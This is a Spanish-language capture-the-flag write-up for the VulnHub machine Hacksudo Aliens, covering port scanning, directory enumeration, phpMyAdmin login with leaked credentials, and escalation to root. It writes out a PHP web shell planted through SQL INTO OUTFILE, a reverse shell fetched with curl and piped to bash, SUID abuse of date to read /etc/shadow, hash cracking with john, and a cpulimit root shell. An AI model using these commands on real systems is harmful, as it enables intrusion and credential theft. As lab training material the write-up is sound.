

# Write Up Hacksudo\_Aliens VulnHub

Escaneo de puertos

```shell
nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn <IP>
```

```shell
nmap -sCV -p<PORTS> <IP>
```

Info:

```
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-06-21 08:03 EDT
Nmap scan report for 192.168.5.196
Host is up (0.00040s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 31:d8:56:f4:cf:8b:09:e8:a1:5e:2e:dd:ac:08:6b:dd (RSA)
|   256 cd:65:ec:9e:d0:2c:6b:4e:02:40:c3:fd:01:5d:d1:87 (ECDSA)
|_  256 03:00:28:0e:0b:da:12:68:c3:c5:45:ab:bb:92:92:fa (ED25519)
80/tcp   open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: Hacksudo Alien?
|_http-server-header: Apache/2.4.38 (Debian)
9000/tcp open  http    Apache httpd 2.4.38 ((Debian))
|_http-title: phpMyAdmin
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.38 (Debian)
MAC Address: 00:0C:29:49:A3:4F (VMware)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 13.17 seconds
```

### Gobuster

```shell
gobuster dir -u http://<IP>/ -w <WORDLIST> -x html,php,txt,md -t 100 -k -r
```

Info:

```
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.5.196/
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              html,php,txt,md
[+] Follow Redirect:         true
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 278]
/.htaccess.html       (Status: 403) [Size: 278]
/.htaccess.md         (Status: 403) [Size: 278]
/.htaccess.txt        (Status: 403) [Size: 278]
/.htaccess.php        (Status: 403) [Size: 278]
/.htaccess            (Status: 403) [Size: 278]
/.htpasswd.txt        (Status: 403) [Size: 278]
/README.md            (Status: 200) [Size: 16]
/.htpasswd.php        (Status: 403) [Size: 278]
/.htpasswd.html       (Status: 403) [Size: 278]
/.htpasswd.md         (Status: 403) [Size: 278]
/backup               (Status: 200) [Size: 941]
/favicon.ico          (Status: 200) [Size: 17726]
/game.html            (Status: 200) [Size: 701]
/images               (Status: 200) [Size: 944]
/index.html           (Status: 200) [Size: 2225]
/server-status        (Status: 403) [Size: 278]
Progress: 102345 / 102350 (100.00%)
===============================================================
Finished
===============================================================
```

Si nos vamos a `/backups` nos descarga un archivo `mysql.bak` pero no lo podremos leer tal cual, por lo que haremos lo siguiente...

```shell
file mysql.bak
```

Info:

```
mysql.bak: Bourne-Again shell script, ASCII text executable
```

Vemos que se puede leer como archivo de texto...

```shell
mv mysql.bak mysql.txt
```

```shell
cat mysql.txt
```

Info:

```
#!/bin/bash

# Specify which database is to be backed up
db_name=""

# Set the website which this database relates to
website="localhost"

# Database credentials
user="vishal"
password="hacksudo"
host="localhost"

# How many days would you like to keep files for?
days="30"

######################################################
##### EDITING BELOW MAY CAUSE UNEXPECTED RESULTS #####
######################################################

# Set the date
date=$(date +"%Y%m%d-%H%M")

# Set the location of where backups will be stored
backup_location="/var/backups/mysql"

# Create the directory for the website if it doesn't already exist
mkdir -p ${backup_location}/${website}
# Append the database name with the date to the backup location
backup_full_name="${backup_location}/${website}/${db_name}-${date}.sql"

# Set default file permissions
umask 177

# Dump database into SQL file
mysqldump --lock-tables --user=$user --password=$password --host=$host $db_name > $backup_full_name

# Set a value to be used to find all backups with the same name
find_backup_name="${backup_location}/${website}/${db_name}-*.sql"
# Delete files older than the number of days defined
find $find_backup_name -mtime +$days -type f -delete
```

Por lo que vemos hay unas credenciales y al pertenecer a `mysql` podremos intuir que tiene que ser del panel de login de `phpmyadmin` que descubrimos en el `nmap` que esta en el puerto `9000` por lo que pondremos lo siguiente...

```
URL = http://<IP>:9000/
```

Una vez puesto eso nos llevara al panel de login, si ingresamos las credenciales que encontramos nos dejara entrar...

```
User = vishal
Password = hacksudo
```

Una vez dentro haremos lo siguiente...

Le daremos al boton `New`...

<figure><figcaption></figcaption></figure>

Despues ponemos cualquier nombre en la casilla `Database Name` y seleccionamos la primera opcion de la derecha llamada `collation`...

<figure><figcaption></figcaption></figure>

Le daremos a `Create` una vez hecho eso, nos iremos a nuestra base de datos creada...

<figure><figcaption></figcaption></figure>

Y le damos a la opcion llamada `SQL`...

<figure><figcaption></figcaption></figure>

Dentro metemos el siguiente comando...

```mysql
SELECT "<?php system($_GET['cmd']); ?>" into outfile "/var/www/html/backdoor.php"
```

<figure><figcaption></figcaption></figure>

Y le damos a la opcion de `Go`...

<figure><figcaption></figcaption></figure>

Ahora si nos vamos a la `URL` donde le hemos dicho que lo cree...

```
URL = http://<IP>/backdoor.php
```

Veremos una pagina en blanco, por lo que significa que el archivo existe, ahora si hacemos lo siguiente...

```
URL = http://<IP>/backdoor.php?cmd=cat /etc/passwd
```

Veremos el archivo `passwd`...

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:110::/nonexistent:/usr/sbin/nologin
tss:x:105:111:TPM2 software stack,,,:/var/lib/tpm:/bin/false
dnsmasq:x:106:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
usbmux:x:107:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
rtkit:x:108:114:RealtimeKit,,,:/proc:/usr/sbin/nologin
pulse:x:109:118:PulseAudio daemon,,,:/var/run/pulse:/usr/sbin/nologin
speech-dispatcher:x:110:29:Speech Dispatcher,,,:/var/run/speech-dispatcher:/bin/false
avahi:x:111:120:Avahi mDNS daemon,,,:/var/run/avahi-daemon:/usr/sbin/nologin
saned:x:112:121::/var/lib/saned:/usr/sbin/nologin
colord:x:113:122:colord colour management daemon,,,:/var/lib/colord:/usr/sbin/nologin
geoclue:x:114:123::/var/lib/geoclue:/usr/sbin/nologin
hplip:x:115:7:HPLIP system user,,,:/var/run/hplip:/bin/false
Debian-gdm:x:116:124:Gnome Display Manager:/var/lib/gdm3:/bin/false
hacksudo:x:1000:1000:hacksudo,,,:/home/hacksudo:/bin/bash
systemd-coredump:x:999:999:systemd Core Dumper:/:/usr/sbin/nologin
sshd:x:117:65534::/run/sshd:/usr/sbin/nologin
mysql:x:118:126:MySQL Server,,,:/nonexistent:/bin/false
```

Por lo que veremos que funciona y nos podremos hacer una `Reverse Shell`...

Primero veremos si tiene instalado `curl`...

```shell
URL = http://<IP>/backdoor.php?cmd=curl http://<IP_HOST>/test
```

Estando a la escucha para saber que te llega el mensaje del envio del comando desde la maquina victima...

```shell
python3 -m http.server 80
```

Si al enviar el comando con `curl` llega un mensaje al comando de `python3` significa que la herramienta esta instalada, por lo que podremos hacer lo siguiente...

```shell
nano index.html

#Contenido del nano

#!/bin/bash

bash -i >& /dev/tcp/<IP>/<PORT> 0>&1
```

Guardamos el archivo y ahora lo ejecutaremos desde `curl` en la maquina victima haciendo lo siguiente...

Donde tengamos el archivo abrimos un servidor de `python3` de la siguiente manera...

```shell
python3 -m http.server 80
```

Una vez hecho eso, estaremos a la escucha...

```shell
nc -nlvp <PORT>
```

Y por ultimo lo ejecutaremos con `curl` de la siguiente forma en la maquina victima...

```shell
URL = http://<IP>/backdoor.php?cmd=curl http://<IP>/index.html | bash
```

Y con esto ya tendriamos la shell como el usuario `www-data`...

Sanitizamos la shell...

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```

Si hacemos lo siguiente...

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
1546    108 ---Sr-xr-x   1 root     root       109408 Feb 28  2019 /usr/bin/date
    10735     24 -rwsr-xr-x   1 root     root        23288 Jan 15  2019 /usr/bin/pkexec
       56     64 -rwsr-xr-x   1 root     root        63736 Jul 27  2018 /usr/bin/passwd
       52     56 -rwsr-xr-x   1 root     root        54096 Jul 27  2018 /usr/bin/chfn
       53     44 -rwsr-xr-x   1 root     root        44528 Jul 27  2018 /usr/bin/chsh
     3910     36 -rwsr-xr-x   1 root     root        34888 Jan 10  2019 /usr/bin/umount
     3436     44 -rwsr-xr-x   1 root     root        44440 Jul 27  2018 /usr/bin/newgrp
    10841     36 -rwsr-xr-x   1 root     root        34896 Apr 22  2020 /usr/bin/fusermount
       55     84 -rwsr-xr-x   1 root     root        84016 Jul 27  2018 /usr/bin/gpasswd
     3908     52 -rwsr-xr-x   1 root     root        51280 Jan 10  2019 /usr/bin/mount
     3583     64 -rwsr-xr-x   1 root     root        63568 Jan 10  2019 /usr/bin/su
    10852    152 -rwsr-xr-x   1 root     root       154352 Mar 21  2019 /usr/bin/ntfs-3g
    17819     56 -rwsr-xr-x   1 root     root        55400 Mar  6  2019 /usr/bin/bwrap
    58037    156 -rwsr-xr-x   1 root     root       157192 Jan 20  2021 /usr/bin/sudo
   407660     16 -rwsr-sr-x   1 root     root        14608 Dec  1  2020 /usr/lib/xorg/Xorg.wrap
    13568    428 -rwsr-xr-x   1 root     root       436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
   150325     20 -rwsr-xr-x   1 root     root        18424 Sep  8  2018 /usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
   135600     12 -rwsr-xr-x   1 root     root        10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
   138948     20 -rwsr-xr-x   1 root     root        18888 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
   138929     52 -rwsr-xr--   1 root     messagebus    51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    57715    380 -rwsr-xr--   1 root     dip          386792 Feb 20  2020 /usr/sbin/pppd
```

Veremos que podemos ejecutar `date` como `root` pero solo nos sirve para leer archivos, por lo que haremos lo siguiente...

```shell
date -f /etc/shadow
```

Info:

```
date: invalid date 'root:$6$N6p.dpWhPYXSXC9U$8EraUiQ5DtMF5ov2ZbnY8DoLK1liRukqhTnTTK67MQ.tgpglkVX/I9P1aYjNeO/cwjQk9lJ/ABd9YLTMeMSn3/:18721:0:99999:7:::'
date: invalid date 'daemon:*:18714:0:99999:7:::'
date: invalid date 'bin:*:18714:0:99999:7:::'
date: invalid date 'sys:*:18714:0:99999:7:::'
date: invalid date 'sync:*:18714:0:99999:7:::'
date: invalid date 'games:*:18714:0:99999:7:::'
date: invalid date 'man:*:18714:0:99999:7:::'
date: invalid date 'lp:*:18714:0:99999:7:::'
date: invalid date 'mail:*:18714:0:99999:7:::'
date: invalid date 'news:*:18714:0:99999:7:::'
date: invalid date 'uucp:*:18714:0:99999:7:::'
date: invalid date 'proxy:*:18714:0:99999:7:::'
date: invalid date 'www-data:*:18714:0:99999:7:::'
date: invalid date 'backup:*:18714:0:99999:7:::'
date: invalid date 'list:*:18714:0:99999:7:::'
date: invalid date 'irc:*:18714:0:99999:7:::'
date: invalid date 'gnats:*:18714:0:99999:7:::'
date: invalid date 'nobody:*:18714:0:99999:7:::'
date: invalid date '_apt:*:18714:0:99999:7:::'
date: invalid date 'systemd-timesync:*:18714:0:99999:7:::'
date: invalid date 'systemd-network:*:18714:0:99999:7:::'
date: invalid date 'systemd-resolve:*:18714:0:99999:7:::'
date: invalid date 'messagebus:*:18714:0:99999:7:::'
date: invalid date 'tss:*:18714:0:99999:7:::'
date: invalid date 'dnsmasq:*:18714:0:99999:7:::'
date: invalid date 'usbmux:*:18714:0:99999:7:::'
date: invalid date 'rtkit:*:18714:0:99999:7:::'
date: invalid date 'pulse:*:18714:0:99999:7:::'
date: invalid date 'speech-dispatcher:!:18714:0:99999:7:::'
date: invalid date 'avahi:*:18714:0:99999:7:::'
date: invalid date 'saned:*:18714:0:99999:7:::'
date: invalid date 'colord:*:18714:0:99999:7:::'
date: invalid date 'geoclue:*:18714:0:99999:7:::'
date: invalid date 'hplip:*:18714:0:99999:7:::'
date: invalid date 'Debian-gdm:*:18714:0:99999:7:::'
date: invalid date 'hacksudo:$6$cOv4E/VKAe0EVwV4$YScCx10zfi7g4aiLY.qo8QPm2iOogJea41mk2rGk/0JM5AtnrmiyTN5ctNJ0KTLS5Iru4lHWYPug792u3L/Um1:18721:0:99999:7:::'
date: invalid date 'systemd-coredump:!!:18714::::::'
date: invalid date 'sshd:*:18714:0:99999:7:::'
date: invalid date 'mysql:!:18720:0:99999:7:::'
```

Veremos el `shadow` al completo, a parte intentaremos crackear la contraseña del usuario `hacksudo`...

```shell
nano hash

#Dentro del nano
hacksudo:$6$cOv4E/VKAe0EVwV4$YScCx10zfi7g4aiLY.qo8QPm2iOogJea41mk2rGk/0JM5AtnrmiyTN5ctNJ0KTLS5Iru4lHWYPug792u3L/Um1
```

```shell
john --wordlist=<WORDLIST> hash
```

Info:

```
Using default input encoding: UTF-8
Loaded 1 password hash (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
aliens           (hacksudo)     
1g 0:00:00:01 DONE (2024-06-21 08:45) 0.6211g/s 4770p/s 4770c/s 4770C/s droopy..thesimpsons
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 
```

Por lo que vemos la contraseña de `hacksudo` es `aliens`...

```
User = hacksudo
Password = aliens
```

Nos conectaremos por `ssh`...

```shell
ssh hacksudo@<IP>
```

Metemos la contraseña y ya estariamos dentro, por lo que leeremos la flag...

> user.txt (flag1)

```
9fb4c0afce26929041427c935c6e0879
```

Con este usuario si hacemos lo siguiente...

```shell
find / -type f -perm -4000 -ls 2>/dev/null
```

Info:

```
161820     24 -rwsrwsrwx   1 root     root        23072 Apr  3  2021 /home/hacksudo/Downloads/cpulimit
     1546    108 ---Sr-xr-x   1 root     root       109408 Feb 28  2019 /usr/bin/date
    10735     24 -rwsr-xr-x   1 root     root        23288 Jan 15  2019 /usr/bin/pkexec
       56     64 -rwsr-xr-x   1 root     root        63736 Jul 27  2018 /usr/bin/passwd
       52     56 -rwsr-xr-x   1 root     root        54096 Jul 27  2018 /usr/bin/chfn
       53     44 -rwsr-xr-x   1 root     root        44528 Jul 27  2018 /usr/bin/chsh
     3910     36 -rwsr-xr-x   1 root     root        34888 Jan 10  2019 /usr/bin/umount
     3436     44 -rwsr-xr-x   1 root     root        44440 Jul 27  2018 /usr/bin/newgrp
    10841     36 -rwsr-xr-x   1 root     root        34896 Apr 22  2020 /usr/bin/fusermount
       55     84 -rwsr-xr-x   1 root     root        84016 Jul 27  2018 /usr/bin/gpasswd
     3908     52 -rwsr-xr-x   1 root     root        51280 Jan 10  2019 /usr/bin/mount
     3583     64 -rwsr-xr-x   1 root     root        63568 Jan 10  2019 /usr/bin/su
    10852    152 -rwsr-xr-x   1 root     root       154352 Mar 21  2019 /usr/bin/ntfs-3g
    17819     56 -rwsr-xr-x   1 root     root        55400 Mar  6  2019 /usr/bin/bwrap
    58037    156 -rwsr-xr-x   1 root     root       157192 Jan 20  2021 /usr/bin/sudo
   407660     16 -rwsr-sr-x   1 root     root        14608 Dec  1  2020 /usr/lib/xorg/Xorg.wrap
    13568    428 -rwsr-xr-x   1 root     root       436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
   150325     20 -rwsr-xr-x   1 root     root        18424 Sep  8  2018 /usr/lib/spice-gtk/spice-client-glib-usb-acl-helper
   135600     12 -rwsr-xr-x   1 root     root        10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
   138948     20 -rwsr-xr-x   1 root     root        18888 Jan 15  2019 /usr/lib/policykit-1/polkit-agent-helper-1
   138929     52 -rwsr-xr--   1 root     messagebus    51184 Jul  5  2020 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
    57715    380 -rwsr-xr--   1 root     dip          386792 Feb 20  2020 /usr/sbin/pppd
```

Vemos la siguiente linea...

```
161820     24 -rwsrwsrwx   1 root     root        23072 Apr  3  2021 /home/hacksudo/Downloads/cpulimit
```

Por lo que si hacemos lo siguiente seremos `root`...

```shell
cd /home/hacksudo/Downloads/
```

```shell
./cpulimit -l 100 -f -- /bin/sh -p
```

Una vez hecho esto ya seremos `root`, por lo que leeremos la flag...

> root.txt (flag2)

```
 _   _            _                  _       
| | | | __ _  ___| | _____ _   _  __| | ___  
| |_| |/ _` |/ __| |/ / __| | | |/ _` |/ _ \ 
|  _  | (_| | (__|   <\__ \ |_| | (_| | (_) |
|_| |_|\__,_|\___|_|\_\___/\__,_|\__,_|\___/ 
                                             
    _    _ _            ____   __   
   / \  | (_) ___ _ __ | ___| / /_  
  / _ \ | | |/ _ \ '_ \|___ \| '_ \ 
 / ___ \| | |  __/ | | |___) | (_) |
/_/   \_\_|_|\___|_| |_|____/ \___/ 

congratulations you rooted hacksudo alien56...!!!
flag={d045e6f9feb79e94442213f9d008ac48}
```
